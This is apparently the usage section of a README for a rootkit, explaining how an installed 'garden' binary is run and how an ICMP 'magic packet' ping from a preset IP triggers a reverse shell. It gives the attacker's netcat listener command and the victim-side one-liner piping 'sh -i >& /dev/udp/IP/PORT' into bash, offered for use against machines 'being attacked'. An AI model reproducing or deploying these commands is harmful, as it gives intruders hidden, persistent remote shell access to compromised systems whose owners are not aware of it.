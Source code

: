 ## Usage

**General**

After configuration and installation, most of the usage of this rootkit will originate from the installed `garden` binary in the `/` directory. Run `$ /garden` for an overview of the options.

**Reverse Shell**

To use the reverse shell, you must input an IP address and port during the setup process. The reverse shell will only connect to this IP address and this port so that installing this rootkit on a machine doesn't leave the machine completely exposed.

The reverse shell can be activated by sending an ICMP ping to the IP address of the machine you are attacking. Make sure to have a `netcat` listener already open on the port you entered during setup.

On `macOS`, you would enter this series of commands to open a reverse shell:

```bash
$ nc -u -l PORT  # Open a netcat listener in one tab
# Open a new terminal tab
$ ping IP_ADDRESS_BEING_ATTACKED # Send magic packet
```

When the machine being attacked gets the ping, it will compare the source IP address of the ping to the IP address entered during configuration. If they match, it will run `$ echo "sh -i >& /dev/udp/IP/PORT 0>1&" | bash` to spawn a reverse shell.

